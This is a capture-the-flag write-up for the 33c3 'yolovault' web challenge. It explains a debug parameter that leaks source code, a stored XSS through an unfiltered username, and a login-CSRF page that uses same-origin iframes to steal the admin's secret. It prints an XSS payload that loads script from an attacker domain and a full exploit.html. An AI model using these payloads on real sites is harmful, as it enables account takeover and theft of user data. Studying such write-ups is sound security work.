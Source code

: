 # yolovault writeup - 33c3 ctf

We first viewed the html-source of the ‘index’ page after we registered a user and logged in. We saw a comment specifying where the admin panel is, which also adds a ‘GET’ parameter named ‘debug’ in the URL.

```html
<ul class="nav navbar-nav navbar-left">
<li><a>You only live once, cause yolo</a></li>
<!-- admins only <li><a href="/?page=leAdminPanel&debug">Admin Panel</a></li> -->
```

So we added ‘?debug’ to the current page, and a ‘View source’ button popped out. This button redirected us to ‘http://78.46.224.71/?page=debug&what=index’ where we could fetch the source code of all PHP files on the server by modifying the ‘what’ parameter.

![alt tag](https://github.com/pashosh-ctf/yolovault/blob/master/pics/fileinc.png?raw=true)

We then reviewed all the PHP source code, and re-read the instructions of this challenge. It states that *"Apparently you can store your secrets here. It's not all nice and shiny yet, but at least the admin seems to fully trust it already...."*. From this we assumed that the admin stores the flag as its ‘secret’.

When reviewed the ‘content.php’ page, which allowes us to let the admin browse to an arbitrary URL. From this is was quite clear that we are looking for an XSS in this website – this will allow us to steal the ‘secret’ of the admin.

![alt tag](https://github.com/pashosh-ctf/yolovault/blob/master/pics/adminlink.png?raw=true)

We first reviewed the admin panel – ‘leAdminPanel.php’. It seems like we can trigger an XSS by specifying a specific user in the ‘ids’ parameter, if contained html as one of its characteristics. The problem here is that the PHP sets the ‘Content-Type’ header as ‘text/csv’, which should prevent script from running for this page. It might be that we missed something here – but we decided to go to another directory.

We quickly noticed that there’s an XSS flow in ‘profile.php’. It reflects the username of the current php-session – which is not filtered at all.

```html
<div class="col-md-4">
<p><h3><?= $_SESSION['username']?></h3></p>
</div>
```
How can we trigger this XSS? First, we have to register a user with html tag as its username. We chose to register a user under the name ```‘<script src=”http://mydomain.com/a.js”></script>’```. When we visited the ‘profile.php’ page the XSS was triggered for us!

![alt tag](https://github.com/pashosh-ctf/yolovault/blob/master/pics/xss.png?raw=true)

How can we trigger this XSS for the admin? It is directly derived from the current php session! So using the ‘content.php’ page we specified our own VPS as the URL for the admin to visit – ‘http://mydomain.com/exploit.html’. From there, we submitted a form to the ‘login.php’ page and logged in the admin as ```‘<script src=”http://mydomain.com/a.js”></script>’```!

```html
<html>
    <head>
        <script>
            var form = document.createElement("form");
            form.method = "POST";
            form.action = "http://127.0.0.1/?page=login";
            form.target = "iframe";
            
            var user_input = document.createElement("input");
            user_input.name = "username";
            user_input.value = '<scr'+'ipt src="http://MYDOMAIN.COM/exploit.html"></sc'+'ript>';
            
            var password_input = document.createElement("input");
            password_input.name = "password";
            password_input.value = "123";
            
            form.appendChild(user_input);
            form.appendChild(password_input);
            
            document.body.appendChild(form);
            form.submit();
        </script>
    </head>
    <body>
        <iframe id='iframe'></iframe>
    </body>
</html>
```
We the added another iframe (after logging in) which pointed to ‘profile.php’ page and triggered the XSS. Yes! the XSS was triggered in the browser of the admin.

Still – this doesn’t solve this challenge. Since we logged in as another user – we completely lost the php-session of the admin. We could no longer access its secret, but only our user’s secret. We were kind of lost here, and were looking for other XSS flows … until we came up with an idea.

The same-origin-policy allows iframes to access each other’s data as long as their ‘domain’ is the same. Even though we’ve lost the admin session when the XSS is triggered – we can still abuse this fact. 

1.	Use the ‘content.php’ page to make the admin browse to ‘http://mydomain.com/exploit.html’
2.	From ‘exploit.html’, create an iframe to ‘http://127.0.0.1/?page=secret’. Since we didn’t logout the admin yet – this iframe will contain the ‘secret’ of the admin in its content. We just cannot read it.
3.	From ‘http://mydomain.com/exploit.html’, submit a form that logs in the administrator as our fake user. This allows us to later trigger the XSS flow.
4.	From ‘http://mydomain.com/exploit.html’ create an iframe to ‘http://127.0.0.1/?page=profile’. This triggers the XSS in the context of ‘http://127.0.0.1’! The same domain where the secret is located!
5.	From the XSS script, access the iframe we created in (1) and retrieve the secret. This is done using ```‘var d = window.top.frames[0].window.document;’.```
6.	Done :)


